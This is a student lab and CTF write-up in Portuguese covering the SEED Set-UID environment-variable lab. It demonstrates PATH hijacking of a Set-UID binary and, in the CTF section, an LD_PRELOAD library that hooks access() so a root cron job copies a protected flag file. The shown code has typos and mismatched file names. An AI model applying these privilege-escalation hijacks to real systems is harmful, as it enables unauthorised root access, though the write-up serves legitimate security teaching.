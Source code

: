 # Trabalho realizado na Semana #4

## Environment Variable and Set-UID Program Lab

### Task 1:

No primeiro passo, usámos o comando ‘printenv’ para visualizar as variáveis de ambiente no terminal, como mostrado na captura de tela.

<img src="/images/image.png">

Em seguida, utilizámos o comando ‘printenv PWD’ para exibir a variável de ambiente PWD no terminal, como demonstrado na captura de tela.

<img src="/images/image2.png">

Prosseguimos para os comandos ‘export’ e ‘unset’, que foram usados para definir e eliminar uma variável de ambiente, como ilustrado nesta captura de tela:

<img src="/images/image3.png">

### Task 2:

Conforme solicitado na primeira etapa, compilámos e executámos o código contido em ‘myprintenv.c’. O resultado foi armazenado num arquivo chamado ‘file’, que continha todas as variáveis de ambiente, como mostra na captura de tela:

<img src="/images/image4.png">

Em seguida, seguimos o passo 2, descomentando o segundo ‘printenv()’ e comentando o primeiro. Compilámos e executámos o código novamente e, desta vez, o resultado foi salvo no arquivo ‘file2’, que também continha todas as variáveis de ambiente, conforme demonstrado em seguida:

<img src="/images/image5.png">

Finalmente, no passo 3, usámos o comando ‘diff’ para comparar os arquivos ‘file’ e ‘file2’, mostrando que não havia diferenças entre eles, como está evidenciado a seguir. Isto permite-nos concluir que as variáveis de ambiente do processo pai são transferidas para o processo filho sem perda de informações.

<img src="/images/image6.png">

### Task 3:

Seguindo o que foi pedido, compilámos e executámos o código contido em ‘myenv.c’. Na primeira execução, não foi apresentada nenhuma saída no terminal, como demonstrado:

<img src="/images/image7.png">

Em seguida, passamos para o passo 2, modificando uma linha de código e compilando e executando o código novamente. Desta vez, as variáveis de ambiente foram exibidas no terminal, conforme demonstrado nesta captura de tela:

<img src="/images/image14.png">

Podemos concluir que o último parâmetro da função ‘execve()’ corresponde ao ambiente no qual o comando é executado. Quando passamos ‘NULL’ como ambiente, nenhuma variável de ambiente é mostrada. No entanto, quando passamos ‘environ’ (o ambiente atual do usuário), todas as variáveis de ambiente são exibidas, como aconteceu na tarefa anterior.

### Task 4:

Após compilar e executar o código no arquivo ‘task4.c’, todas as variáveis de ambiente foram exibidas, como está ilustrado na captura de tela que se segue. Isto indica que a função ‘system()’ passa as variáveis de ambiente como um array para a função ‘execve()’.

<img src="/images/image8.png">

### Task 5:

Após criar o código no arquivo ‘task5.c’, compilá-lo, definir a propriedade como root e torná-lo um programa Set-UID, além de criar três variáveis de ambiente (PATH=/usr/bin, LD_LIBRARY_PATH=/home/seed/FSI, X=isto), ao executar o programa, observámos que todas as variáveis criadas aparecem no processo filho, exceto a variável LD_LIBRARY_PATH, por razões de segurança para evitar o controlo de links dinâmicos através de executáveis Set-UID.

<img src="/images/image9.png">
<img src="/images/image10.png">


Captura de ecrã variáveis de ambiente demonstradas por printenv, que incluem LD_LIBRARY_PATH:

<img src="/images/image11.png">
<img src="/images/image12.png">

### Task 6:

Para realizar esta tarefa, começámos por modificar a variável de ambiente PATH para incluir o diretório onde criámos os arquivos como o primeiro local para procurar o comando solicitado. Em seguida, compilámos o código fornecido no arquivo ‘task6.c’, definimos a propriedade como root e tornámos o programa num Set-UID. Em seguida, criámos um novo código no arquivo ‘attack.c’ com dois ‘printf()’ para indicar se o processo tem permissões de root ou não:

<img src="/images/image15.png">

Ao compilar o programa ‘attack.c’ com o nome ‘ls’ e executar o resultado da compilação do código ‘task6.c’, o código do primeiro é executado devido ao uso de um caminho relativo no comando ‘system()’. O ‘printf’ no terminal informa que o processo não tem permissões de root:

<img src="/images/image17.png">

No entanto, se executarmos o comando fornecido no enunciado ($ sudo ln -sf /bin/zsh /bin/sh), o mecanismo de segurança do ‘sh’ é contornado. Portanto, ao executar novamente o programa, o ‘printf’ informa que o processo tem permissões de root:

<img src="/images/image16.png">

## Environment Variable and Set-UID Program CTF

Em primeiro lugar, acedemos ao servidor descrito no contexto com o programa netcat.
Ao entrar no sevidor, podemos ler os ficheiros que lá estão guarados, e de destaque: 
- o ficheiro "admin_note.txt", que descreve que temos acesso a criar folders no diretorio "/tmp";
- o ficheiro "my_script.sh", que faz chamadas que vão buscar environment variables ao diretório "/env" e também chama o ficheiro main.c compilado (reader);
- o ficheiro "main.c", que usa a função access;

Descobrimos também que o ficheiro "my_script.sh" é corrido regularmente com privilégio de root através de crond, o que levou a possibilidade de se conseguirmos fazer com que esse ficheiro executa-se um programa nosso podermos ter acesso a flag, que está escodida atrás de privilégios de root.

Após uma pesquisa na internet, descobrimos que a função acccess tem o seguinte formato: `int access(const char *pathname, int mode);`

Para além disso, ao correr o código `echo "LD_PRELOAD=/tmp/libtentei.so.1.0.1" > env;`
permite guardar as variaveis de ambiente para uma library nossa;

Depois disso, como só podemos escrever código no /tmp, acedemos à pasta e escrevemos o seguinte programa:

` echo #include <stdio.h> `
` #include <stdlib.h> `

`int access(const char *pathname, int mode){`
`    system("/usr/bin/cat /flags/flag.txt > /tmp/sucesso.txt);`
`   return 0;`
`} > qwe.c; `

Com o programa escrito, compilamos o código da seguinte maneira:

`gcc -fPIC -g -c tentei.c;`
`gcc -sgared -o libtentei.so.1.0.1 qwe.o -lc;`

De forma a termos acesso ao ficheiro para onde vamos escrever a informação do tmp, criamos o ficheiro de texto com: `touch sucesso.txt`
e por último damos acesso ao admin para o ficheiro sucesso com `chmod 777 sucesso.txt;`

É de notar que este exercício foi bastante facilitado após a realização do exercício 7 do guião de Enviornment variables;
